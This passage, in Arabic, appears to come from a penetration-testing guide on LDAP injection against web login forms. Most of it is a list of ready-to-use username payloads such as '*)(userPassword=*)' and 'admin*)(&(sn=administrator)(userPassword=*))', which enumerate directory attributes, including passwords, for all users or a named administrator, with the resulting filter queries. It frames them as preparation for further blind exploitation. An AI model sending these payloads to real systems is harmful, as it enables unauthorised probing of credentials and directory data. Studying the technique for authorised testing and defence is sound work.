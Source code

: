 #### أ. اختبار كل خاصية مع علامة بدل
- **الاستعلام**: `*)(ATTRIBUTE=*)`
- **الإدخال**:
  - اسم المستخدم: `*)(ATTRIBUTE=*)`
  - كلمة المرور: `anything` (أو اتركه فارغًا إذا لزم الأمر)
- **الخصائص للاختبار** (استبدل `ATTRIBUTE` بكل خاصية):
  - `*)(uid=*)`
  - `*)(cn=*)`
  - `*)(sn=*)`
  - `*)(userPassword=*)`
  - `*)(mail=*)`
  - `*)(givenName=*)`
  - `*)(objectClass=*)`
  - `*)(name=*)`
  - `*)(surname=*)`
  - `*)(commonName=*)`
  - `*)(displayName=*)`
  - `*)(telephoneNumber=*)`
  - `*)(description=*)`
  - `*)(memberOf=*)`
  - `*)(sAMAccountName=*)`
  - `*)(userPrincipalName=*)`
- **كيف يعمل**:
  - الاستعلام `*)(ATTRIBUTE=*)` يختبر ما إذا كانت الخاصية موجودة في الدليل.
  - مثال: إدخال `*)(userPassword=*)` ينتج استعلامًا مثل:
    ```
    (&(uid=*)(userPassword=*))(userPassword=anything))
    ```
  - إذا كانت الاستجابة **إيجابية** (مثل صفحة تحتوي على نص، نتيجة بحث، أو رمز حالة HTTP 200)، فالخاصية `userPassword` صالحة.
  - إذا كانت الاستجابة **سلبية** (مثل خطأ "Invalid credentials" أو صفحة فارغة)، فالخاصية غير صالحة.
- **متى يُستخدم؟**:
  - عند الاختبار اليدوي لتحديد الخصائص المدعومة.
  - عندما تريد تأكيد وجود خاصية معينة قبل استهدافها في هجمات أخرى (مثل الاستغلال الأعمى).

#### ب. اختبار الخصائص مع مستخدم معين
- **الاستعلام**: `(&(sn=administrator)(ATTRIBUTE=*))`
- **الإدخال**:
  - اسم المستخدم: `admin*)(&(sn=administrator)(ATTRIBUTE=*))`
  - كلمة المرور: `anything`
- **الخصائص للاختبار** (استبدل `ATTRIBUTE` بكل خاصية):
  - `admin*)(&(sn=administrator)(uid=*))`
  - `admin*)(&(sn=administrator)(cn=*))`
  - `admin*)(&(sn=administrator)(sn=*))`
  - `admin*)(&(sn=administrator)(userPassword=*))`
  - `admin*)(&(sn=administrator)(mail=*))`
  - ... (كرر لجميع الخصائص المذكورة أعلاه)
- **كيف يعمل**:
  - يستهدف مستخدمًا معينًا (مثل `administrator`) ويختبر ما إذا كانت الخاصية موجودة له.
  - الاستعلام الناتج: 
    ```
    (&(uid=admin*)(&(sn=administrator)(userPassword=*))(userPassword=anything))
    ```
  - إذا كانت الاستجابة إيجابية، فالخاصية صالحة لمستخدم `administrator`.
- **متى يُستخدم؟**:
  - إذا كنت تعرف اسم مستخدم معين (مثل `administrator`) وتريد التحقق من الخصائص المرتبطة به.
  - عندما يكون التطبيق يقيد الاستعلامات بمستخدم معين.
